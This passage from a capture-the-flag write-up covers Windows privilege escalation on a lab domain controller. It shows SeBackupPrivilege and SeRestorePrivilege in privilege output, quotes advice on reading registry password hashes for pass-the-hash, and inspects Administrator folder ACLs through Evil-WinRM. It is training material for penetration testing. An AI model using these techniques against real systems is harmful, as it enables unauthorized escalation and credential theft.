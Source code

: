 ```text
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

This account have SeBackupPrivilege, this seems interesting from [here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sebackupprivilege-3.1.4):

> This privilege causes the system to grant all read access control to any file (only read).
> Use it to read the password hashes of local Administrator accounts from the registry and then use "psexec" or "wmicexec" with the hash (PTH).

This user also have SeRestorePrivilege :

> Write access control to any file on the system, regardless of the files ACL.
> You can modify services, DLL Hijacking, set debugger (Image File Execution Options)… A lot of options to escalate.

### privilege escalation : abuse SeBackupPrivilege to read files

From this [article](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf), it's quite easy to get a read acces to any files since the user have SeRestorePrivilege:

```batch
*Evil-WinRM* PS C:\Users> get-acl \Users\Administrator | fl
```

Result:

```text
Path   : Microsoft.PowerShell.Core\FileSystem::C:\Users\Administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BLACKFIELD\Administrator Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:P(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)
```

Add a full control access to svc_backup to Administrator home folder, and apply (inherit) it to children :
